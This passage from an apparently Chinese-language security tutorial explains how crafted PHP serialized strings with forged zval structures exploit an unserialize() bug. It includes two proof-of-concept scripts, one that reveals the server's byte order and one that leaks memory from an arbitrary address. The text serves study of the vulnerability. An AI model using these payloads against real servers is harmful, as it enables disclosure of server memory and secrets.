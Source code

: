     01 00 bc cc
    

把上述的放在一起，就得到了“S”的值！那么如何通过上述的结构确定服务器的字节顺序呢？在服务器的响应中，如果返回0x100（256），就可以确定是小尾方式！如果返回的是65536，那么就是大尾方式！确定字节顺序的完整php代码如下：

```
<?php
 
$data='O:8:"stdClass":4:{';
$data.='s:3:"123";a:10:{i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;}';
$data.='s:3:"123";i:0;';
$data.='i:0;S:17:"\00\01\00\00AAAA\00\01\01\00\01\00\0B\BC\CC";';
$data.='i:1;r:12;}';
 
var_dump(serialize(unserialize($data)));
 
?>

```

source:[determineEndianness](https://gist.github.com/tmm08a/66810644f89f293a7b8b#file-determineendianness)

程序响应如下：

![enter image description here](http://drops.javaweb.org/uploads/images/aedbfe5b7cf24bfe4f9e0a04e9532ce8c8e17141.jpg)

很好！现在我们已经能够确定服务器的字节顺序了！当然，我们真正想要的仍然是泄露任意数据。让我们接着往下走，既然已经能够泄露出我们所提供的数据了，那么是不是有可能泄露出任意地址的数据呢？

0x02 任意地址数据泄露
=============

* * *

本篇文章并未就此结束，因而我们的答案当然是肯定的！不过，这次我们需要的不再是整型的zval结构，而是字符串型zval数据结构，结构如下：

*   设置指向字符串数据的指针
    
    00 80 04 08
    
*   设置我们想要获得的字符串长度（1024）
    
    00 04 00 00
    
*   设置引用计数为非零
    
    00 01 01 00
    
*   最后，设置数据类型为string型（06），其余字节设为垃圾数
    
    06 00 0b bc
    

我们的新脚本如下所示：

```
<?php
 
$data='O:8:"stdClass":4:{';
$data.='s:3:"123";a:10:{i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;}';
$data.='s:3:"123";i:0;';
$data.='i:0;S:16:"\00\80\04\08\00\04\00\00\00\01\01\00\06\00\0B\BC";';
$data.='i:1;r:12;}';
 
var_dump(serialize(unserialize($data)));
 
?>

```

